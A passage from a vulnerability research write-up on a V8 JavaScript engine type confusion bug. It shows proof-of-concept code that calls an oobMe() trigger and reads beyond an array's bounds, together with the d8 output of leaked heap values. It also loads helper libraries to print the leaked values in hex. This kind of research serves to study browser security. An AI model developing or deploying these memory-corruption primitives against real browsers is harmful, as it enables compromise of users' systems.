 ```js
console.log("\n[+] Triggering type confusion bug\n");
oobMe();

for(let i = 0 ; i < 100; i++){
  console.log("oob_Array[" + i+  "] : " + oob_Array[i]);
}
```

  
This is the output from reading outside of the original length of 5. Note that the array is reading the values as doubles which are stored in IEEE754 format.

  
```
C:\Users\User\v8\out\default>d8.exe --allow-natives-syntax --shell poc1.js

[+] Triggering type confusion bug
oob_Array[0] : 0.1
oob_Array[1] : 0.2
oob_Array[2] : 0.3
oob_Array[3] : 0.4
oob_Array[4] : 0.5
oob_Array[5] : 4.7385956371820895e-270
oob_Array[6] : -5.7176043809636516e-244
oob_Array[7] : 4.7385965402169246e-270
oob_Array[8] : 4.734162078028281e-270
oob_Array[9] : 4.7341620780272485e-270
...
...
oob_Array[95] : 4.6584906348358574e-33
oob_Array[96] : 2.6192209970047e-310
oob_Array[97] : 6.43242993e-314
oob_Array[98] : 3.0172948438224255e+151
oob_Array[99] : 1.243667255451028e-307
```
  
A word of caution here is to not rely too much on `console.log` to print out values of the memory as it is possible to interfere with the heap layout sometimes. It took me a long time to realize what was going on. For this research, it is just to prove that the values read are the same as the values in memory and nothing more.

Let's verify the values in memory with the above output of values of the heap.
![valuesMatchOOB.jpg](valuesMatchOOB.jpg)

  I prefer to be able to read the values and be printed out in hex form. To do that, I have used the utilities written by Saelo from [https://github.com/saelo/jscpwn](https://github.com/saelo/jscpwn) namely `int64.js` and `utils.js`.

  ```js
  load("C:/Users/User/v8/out/default/utils.js");
  load("C:/Users/User/v8/out/default/int64.js");
  ...
  ...
  ...
  for(let i = 0 ; i < 100; i++){
    console.log("oob_Array[" + i+  "] : " + Int64.fromDouble(oob_Array[i]).toString());  
  }
  ```
  
